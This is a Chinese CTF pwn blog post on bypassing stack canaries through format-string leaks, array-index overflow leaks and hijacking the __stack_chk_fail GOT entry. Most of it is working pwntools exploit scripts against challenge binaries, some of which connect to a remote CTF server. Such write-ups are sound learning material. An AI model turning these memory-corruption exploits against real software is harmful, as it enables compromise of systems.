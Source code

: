 ```yaml
---
title: 2022-01-16-PWN-canary的绕过和泄露思路
date: 2022-01-16 18:49:37
tags: ['CTF', 'Pwn', ]
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/ctf_logo_1.png
banner_img: https://novanoir.moe/img/ctf_banner_1.png


---
```


准备研究一下不同保护机制下的绕过，然后就准备进heap了

今天先来看一下Canary

<!--truncate-->

# Leak Canary

绕过Canary的主要一种方式就是泄露Canary的值，通常需要根据格式化字符串或者题目的一些输出来进行。

## bin

这是一题最基础的格式化字符串泄露Canary的题目

![pseudocode](https://cdn.novanoir.moe/img/image-20220116194731361.png)

![checksec](https://cdn.novanoir.moe/img/image-20220116195013327.png)

同时，有直接cat flag的后门函数，所以我们只需要泄露出canary的值，并溢出到后门函数就好。

通过GDB看到canary在字符串的第七个参数位置，直接任意地址读canary就好

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'

sh = process('./bin')

payload = b'%7$x'
# gdb.attach(sh, 'b printf')
sh.sendline(payload)
canary = int(sh.recv(), 16)
print(canary) 
getflag_addr = 0x0804863B
payload = b'A'*100 + p32(canary) + b'A'*12 + p32(getflag_addr)
sh.sendline(payload)
sh.interactive()

```

## pwn1

这是用到了数组下标溢出的知识，但本质也是一样的。

通过数组下标溢出修改它的上限判定，再泄露canary

（按理来说应该可以直接修改数组下标到返回地址，直接修改返回地址，但是还没搞出来，同样的脚本写着写着就segment fault了，再改回去也不行了，程序员的疑问+1）

给出两个exp

exp1:

```python
from pwn import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')

for i in range(23):
    sh.recvuntil(b'Your choice:')
    sh.sendline(b'1')
    sh.recvuntil(b'Please input the pos:')
    sh.sendline(b'%d' % i)
    sh.recvuntil(b'Please input the number:')
    sh.sendline(b'0')

#gdb.attach(sh, 'b puts')


sh.recvuntil(b'Your choice:')
sh.sendline(b'2')
sh.recvuntil(b'How many?')
sh.sendline(b'24')
sh.recvuntil(b"result:")
canary = int(sh.recvline())
calc_root_addr = int(0x4012BD)
sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.recvuntil(b"What's your name?")
payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(calc_root_addr)
sh.sendline(payload)
sh.interactive()

```

exp2:

```python
from pwn import *
context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

#sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')


sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'25')
#gdb.attach(sh, 'b puts')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'4199101')

sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.sendline(b'')
sh.interactive()
```



# Hijack stack_chk_fail

修改`stack_chk_fail`函数的got表地址，让它执行时直接跳转到后门函数

这样再栈溢出就可以了

主要还是靠一手格式化字符串任意地址写(让人怀疑主题（)

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./bin3')
elf = ELF('./bin3')

stack_chk_fail_got = elf.got['__stack_chk_fail']
backdoor_addr = 0x040084E

payload = fmtstr_payload(6, {stack_chk_fail_got: backdoor_addr})
print(payload)
sh.sendline(payload + b'A'*0x100)
sh.interactive()

```

> 顺带提一嘴，其实我对fmtstr的大数字覆盖还是挺搞不懂的，不过pwntools居然自带了fmtstr_payload来给你算，挺好的



# Brute-Force

Fork进程会让canary不变，可以爆破

~~还没有找到题目~~


